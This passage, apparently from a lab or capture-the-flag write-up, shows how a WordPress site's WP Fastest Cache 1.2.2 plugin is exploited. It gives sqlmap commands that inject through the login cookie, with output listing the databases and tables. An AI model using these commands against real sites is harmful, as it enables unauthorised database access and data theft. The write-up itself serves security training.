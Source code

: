![1](attachment/f5fa9414962b8af95519c49d34421b20.png)

Using this method, we discovered an interesting plugin. Checking it in the browser revealed more information.
![1](attachment/0ccc9200dc420d8363c5d6ed6a8105b1.png)

According to our research, version 1.2.2 of the WP Fastest Cache plugin has a known SQL injection vulnerability, allowing an attacker to execute SQL queries on the system without authentication.

This SQL injection vulnerability is time-based, so we used sqlmap to automate the exploitation process:
```
❯ sqlmap --dbms=mysql -u "http://172.17.0.2/wp-login.php" --cookie='wordpress_logged_in=*' -dbs --batch  --level=2
available databases [2]:
[*] information_schema
[*] wordpress

❯ sqlmap --dbms=mysql -u "http://172.17.0.2/wp-login.php" --cookie='wordpress_logged_in=*' -D wordpress -tables --batch --level=2
Database: wordpress
[13 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
```